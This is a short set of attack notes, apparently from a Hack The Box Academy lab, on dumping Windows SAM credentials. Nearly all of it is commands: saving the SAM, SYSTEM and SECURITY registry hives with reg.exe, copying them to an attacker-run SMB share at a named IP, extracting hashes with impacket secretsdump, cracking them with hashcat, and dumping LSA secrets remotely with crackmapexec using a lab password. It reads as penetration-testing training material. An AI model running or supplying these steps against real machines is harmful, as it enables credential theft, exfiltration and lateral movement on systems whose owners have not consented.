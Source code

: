 # ATTACK SAM

## Copying SAM Registry Hives

hklm\sam : hashes associated with local account passwords
hklm\system : system bootkey, which is used to encrypt the SAM database
hklm\security : cached credentials for domain accounts

We can create backups of these hives using the **reg.exe** utility.

C:\WINDOWS\system32>
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

## Transferring copies

On the Pwn Box :
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/

move sam.save \\$PWN_BOX$\CompData
move security.save \\$PWN_BOX$\CompData
move system.save \\$PWN_BOX$\\CompData

## Dumping Hashes with Impacket's secretsdump.py

locate secretsdump 
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

## Cracking Hashes with Hashcat

sudo vim hashestocrack.txt
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

# Remote Dumping & LSA Secrets Considerations

crackmapexec smb $TARGET--local-auth -u bob -p HTB_@cademy_stdnt! --lsa

crackmapexec smb $TARGET --local-auth -u bob -p HTB_@cademy_stdnt! --sam

# LAB

xfreerdp /u:Bob /p:"HTB_@cademy_stdnt!" /v:$TARGET

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/

move sam.save \\10.10.15.69\CompData
move security.save \\10.10.15.69\CompData
move system.save \\10.10.15.69\\CompData
